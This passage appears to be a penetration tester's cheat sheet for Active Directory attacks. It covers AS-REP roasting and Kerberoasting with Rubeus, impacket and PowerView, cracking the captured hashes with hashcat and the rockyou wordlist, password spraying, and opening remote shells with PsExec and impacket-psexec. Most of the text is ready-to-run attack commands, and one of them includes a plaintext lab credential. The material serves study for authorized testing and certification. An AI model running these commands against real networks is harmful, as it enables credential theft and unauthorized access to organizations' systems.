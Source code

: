     `sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` - Cracking the AS-REP hash with Hashcat
    
- On Windows -
    
    Rubeus - https://github.com/GhostPack/Rubeus
    
    `.\Rubeus.exe asreproast /nowrap` 
    
    `sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`


### Kerberoasting
---

Kerberoasting 
⇒ Any user can get a service ticket for a service account
⇒ service ticket is encrypted using a service account hash
⇒ crack the hash using hashcat
⇒ spray password using crackmapexec



- Windows -

`.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`  - Utilizing Rubeus to perform a Kerberoast attack

`sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` - Cracking the TGS-REP hash

- On Linux -

`sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete` - Using impacket-GetUserSPNs to perform Kerberoasting on Linux

If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so.

***Looking for Service Accounts (SPN - Service Principal Name)***

If SPN is set ⇒ It is a service account

`Get-DomainUser -SPN` ⇒ Find service accounts

`Invoke-Kerberoast -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath ‘c:\users\public\HashCapture.txt’ -Width 8000`  ⇒ get hash

`hashcat -m 13100 -o cracked.txt -a 0 hashes.txt rockyou.txt` ⇒ crack the hash using hashcat


### PsExec

Sysinterals - https://learn.microsoft.com/en-us/sysinternals/

`.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd`

Linux - 
`impacket-psexec oscp/emmet@10.10.1.202`  ⇒ get access to shares and shell on machine
